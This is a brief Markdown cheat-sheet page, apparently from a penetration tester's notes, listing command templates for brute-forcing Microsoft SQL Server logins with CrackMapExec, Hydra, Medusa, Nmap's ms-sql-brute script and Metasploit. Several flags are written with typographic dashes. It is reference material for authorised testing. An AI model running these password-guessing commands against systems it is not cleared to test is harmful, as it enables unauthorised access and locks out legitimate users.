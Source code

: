 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/MSSQL/Exploitation
---
```


# Exploitation

<!-- Brute Force {{{-->
## Brute Force

> [!tip]
>
> Use the NetBIOS name of the machine as domain

<!-- CrackMapExec {{{-->
### CrackMapExec

```sh
crackmapexec mssql <target> -d <domain_name> -u usernames.txt -p passwords.txt
```

<!-- }}} -->

<!-- Hydra {{{-->
### Hydra

```sh
hydra -L <usernames.txt> –P <passwords.txt> <target> mssql
```

<!-- }}} -->

<!-- Medusa {{{-->
### Medusa

```sh
medusa -h <target> –U <usernames.txt> –P <passwords.txt> –M mssql
```

<!-- }}} -->

<!-- Nmap {{{-->
### Nmap

```sh
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host>
```

> [!warning]
>
> This may block user accounts

<!-- }}} -->

<!-- Metasploit {{{-->
### Metasploit

> [!warning]
>
> This may block user accounts
>
> Set the domain (if any) and use `USE_WINDOWS_ATHENT`

```sh
msf> use auxiliary/scanner/mssql/mssql_login
```

<!-- }}} -->

___

<!-- }}} -->
